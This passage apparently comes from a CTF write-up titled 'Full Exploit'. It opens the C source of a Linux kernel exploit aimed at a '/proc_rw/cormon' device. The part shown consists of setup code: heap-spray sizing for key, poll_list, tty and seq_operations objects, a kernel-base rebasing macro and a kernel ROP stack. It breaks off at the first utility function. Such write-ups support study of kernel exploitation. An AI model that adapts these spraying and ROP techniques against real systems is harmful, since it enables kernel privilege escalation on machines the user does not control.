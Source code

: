 ![uouo fish life](https://hackmd.io/_uploads/B1iKq7JZi.gif)


UOUO FISH LIFE.

# Full Exploit

```exploit.c
#include "./exploit.h"
#include <bits/pthreadtypes.h>
#include <keyutils.h>
#include <pthread.h>
#include <sys/mman.h>
#include <unistd.h>

/*********** commands ******************/
#define DEV_PATH "/proc_rw/cormon"   // the path the device is placed

/*********** constants ******************/
#define DESC_KEY_TOBE_OVERWRITTEN_SEQOPS "exploit0"
#define SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS 0x8
#define NUM_KEY_SPRAY (0x60)
#define NUM_2ND_KEY_SPRAY (NUM_KEY_SPRAY * 2)
#define NUM_3RD_KEY_SPRAY (0x10 + 0x8)
#define NUM_3RD_KEY_SIZE (0x290)

#define NUM_PREPARE_KM32_SPRAY 2000

#define NUM_POLLFD (30 + 510 + 1) // stack, kmalloc-4k, kmalloc-32
#define NUM_1ST_POLLLIST_ALLOC (0x10 - 0x1 + 0x1)
#define NUM_2ND_POLLLIST_ALLOC (0x120 + 0x20 + 0x40 + 0x40 + 0x40 + 0x200)
#define TIMEOUT_POLLFD 2000 // 2s

#define NUM_TTY_SPRAY (0x100)

#define NUM_SEQOPERATIONS (NUM_1ST_POLLLIST_ALLOC + 0x100)
#define NUM_FREE_SEQOPERATIONS (0x160)

#define KADDR(addr) ((ulong)addr - 0xffffffff81000000 + kbase)

/*********** globals ******************/

int cormon_fd;
int just_fd;
key_serial_t keys[NUM_KEY_SPRAY * 5] = {0};
int seqops_fd[0x500];
int tty_fd[NUM_TTY_SPRAY * 2];
char *cormon_buf[0x1000 + 0x20] = {0};
pthread_t threads[0x1000];
int num_threads = 0;
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

ulong kbase = 0;
int neverend = 0;

char *krop_stack = NULL;
#define KROP_USTACK_SIZE 0x10000

/*********** utils ******************/

int num_keys = 0;
ulong _alloc_key_prefill_ulong_val = 0;
void _alloc_key_prefill_ulong() {
```